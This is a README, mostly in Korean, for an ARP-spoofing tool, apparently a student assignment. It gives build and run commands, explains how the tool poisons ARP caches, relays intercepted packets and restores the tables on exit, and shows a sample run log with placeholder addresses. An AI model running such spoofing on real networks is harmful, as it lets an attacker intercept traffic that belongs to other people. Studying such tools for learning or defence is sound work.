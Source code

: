 # arp-spoof

sudo qmake arp-spoof

sudo make

sudo ./arp-spoof [interface] [sender ip address1] [target ip address1] [sender ip address2] [target ip address2] ...

로 실행시킬 수 있습니다.



sender가 attacker에게 보낸 ip 패킷과,

attacker가 target에게 보낼 ip 패킷을 다 출력창에서 볼 수 있도록 구현하였습니다.

sender가 attacker에게 보낸 ip 패킷의 arp 헤더에서 source mac address가 sender의 mac address와 같아야 한다는 조건을 넣었습니다.



3초마다 모든 (ith sender, ith target) 쌍에 대해서 ith sender가 ith target의 mac 주소를 attacker의 것으로 알게끔 구현하였고,

i번째 sender가 i번째 target의 mac address가 무엇인지 질의하는 arp request 에 대한 arp reply도 보내지도록 하였습니다.




마지막으로, 프로그램 종료시에는 ctrl + c를 누르시면,

모든 (ith sender, ith target) 쌍에 대해서 sender의 arp table에서 잘못된 target의 mac address를 

원래대로 복구할 수 있는 arp reply를 보내도록 하였습니다.

-10월 26일

## 실행예제

./sudo ens33 192.168.123.1 192.168.123.254 192.168.123.1 192.168.123.2 192.168.123.2 192.168.123.1

My ip address : 192.168.123.7
if you press ctrl + c, then the program will send arp-recover packets and then it would end!I got my mac address!
My mac address : DD:DD:DD:DD:DD

1th case of sender and target mac address finding started



1th sender's ip  address!	: 192.168.123.1

1th sender's mac address!	: AA:AA:AA:AA:AA:AA





1th target's ip  address!	: 192.168.123.254

1th target's mac address!	: CC:CC:CC:CC:CC:CC



2th case of sender and target mac address finding started



I already searched that ip, mac that will be shown below



2th sender's ip  address!	: 192.168.123.1

2th sender's mac address!	: AA:AA:AA:AA:AA:AA





2th target's ip  address!	: 192.168.123.2

2th target's mac address!	: BB:BB:BB:BB:BB:BB



3th case of sender and target mac address finding started



I already searched that ip, mac that will be shown below



3th sender's ip  address!	: 192.168.123.2

3th sender's mac address!	: BB:BB:BB:BB:BB:BB





I already searched that ip, mac that will be shown below



3th target's ip  address!	: 192.168.123.1

3th target's mac address!	: AA:AA:AA:AA:AA:AA





arp spoofing started!



Ip packet that I received is 1th pair!

packet's sender ip  address!	: 192.168.123.1

packet's target ip  address!	: 192.168.123.254

74 bytes captured

IP header, total packet length : 15360



I'll relay sender's packet to target!



Ip packet that I received is 3th pair!

packet's sender ip  address!	: 192.168.123.2

packet's target ip  address!	: 192.168.123.1

74 bytes captured

IP header, total packet length : 15360



I'll relay sender's packet to target!



Ip packet that I received is 2th pair!

packet's sender ip  address!	: 192.168.123.1

packet's target ip  address!	: 192.168.123.2

74 bytes captured

IP header, total packet length : 15360



I'll relay sender's packet to target!



Ip packet that I received is 2th pair!

packet's sender ip  address!	: 192.168.123.1

packet's target ip  address!	: 192.168.123.2

74 bytes captured

IP header, total packet length : 15360



I'll relay sender's packet to target!



Ip packet that I received is 2th pair!

packet's sender ip  address!	: 192.168.123.1

packet's target ip  address!	: 192.168.123.2

74 bytes captured

IP header, total packet length : 15360



I'll relay sender's packet to target!



Ip packet that I received is 3th pair!

packet's sender ip  address!	: 192.168.123.2

packet's target ip  address!	: 192.168.123.1

74 bytes captured

IP header, total packet length : 15360



I'll relay sender's packet to target!



Ip packet that I received is 2th pair!

packet's sender ip  address!	: 192.168.123.1

packet's target ip  address!	: 192.168.123.2

74 bytes captured

IP header, total packet length : 15360



I'll relay sender's packet to target!



Ip packet that I received is 3th pair!

packet's sender ip  address!	: 192.168.123.2

packet's target ip  address!	: 192.168.123.1

74 bytes captured

IP header, total packet length : 15360



I'll relay sender's packet to target!



Ip packet that I received is 2th pair!

packet's sender ip  address!	: 192.168.123.1

packet's target ip  address!	: 192.168.123.2

74 bytes captured

IP header, total packet length : 15360



I'll relay sender's packet to target!

^C



Program will send recover arp reply packet and terminate!

1th recover packet send!

2th recover packet send!

3th recover packet send!

Press <RETURN> to close this window...


